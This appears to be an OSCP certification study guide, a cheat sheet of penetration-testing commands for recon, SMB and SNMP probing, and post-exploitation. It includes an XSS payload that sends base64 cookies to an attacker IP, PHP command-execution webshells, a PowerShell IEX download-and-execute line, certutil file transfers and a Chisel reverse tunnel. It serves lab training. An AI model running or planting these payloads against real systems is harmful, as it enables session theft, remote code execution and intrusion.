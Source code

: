 # OSCP
OSCP Study Guide

## Table of Contents

## Enumeration and Recon





### Web Enumeration

Nikto scanning:

```
nikto -h http://10.10.10.1
```

Directory busting with different tools:

DIRB

```
dirb http://10.10.10.1
```

Gobuster

```
gobuster dir -u http://10.129.155.74:3000 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x aspx
```

### Pentesting Website Applications

XSS Payloads:
Cheatsheet: https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection

Basic XSS form testing with either netcat listener or python web server
```
<img src=http://10.10.16.10/pwn.jpg/>
```

Cross Site scripting to dump base64 cookies. Make sure to url encode in burp with ctrl + u
```
<img src=x onerror=this.src='http://10.10.16.10/?cookies='+btoa(document.cookie) />
```
### Webshells

Reference: https://sushant747.gitbooks.io/total-oscp-guide/content/webshell.html

Simple PHP webshell for command execution

```
<?php system($_REQUEST ['cmd']) ?>
```

```
<?php system($_GET['cmd']); ?>
```

### Pentesting SNMP

Port 161 UDP

```
snmpwalk -c public -v2c 10.129.213.210
```

```
snmp-check 10.129.213.210
```

### Pentesting SMB

```
crackmapexec smb 10.129.70.254 
```

Detect anonymous shares that are open

```
smbclient -L //10.129.70.254
```

Null Authentication

```
smbclient -N -L //10.129.70.254
```

## Post Exploitation

### Downloading and Transferring Files

Certutil:

```
certutil.exe -urlcache -split -f http://7-zip.org/a/7z1604-x64.exe 7zip.exe
```

PowerShell:

```
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.11.0.4/wget.exe','C:\Users\offsec\Desktop\wget.exe')"
```

```
powershell.exe "IEX(New-Object Net.WebClient).downloadString('http://10.11.0.4/nc.exe')"
```

## Port forwarding and tunneling

Using Chisel:

Example using port forwarding so port 910 is available on kali box
```
on victim machine setup port forwarding
chisel.exe client 10.10.16.10:5555 R:910:127.0.0.1:910
```

```
On Kali attack box setup a reverse listner for port forward with chisel
./chisel server --port 5555 --reverse
```

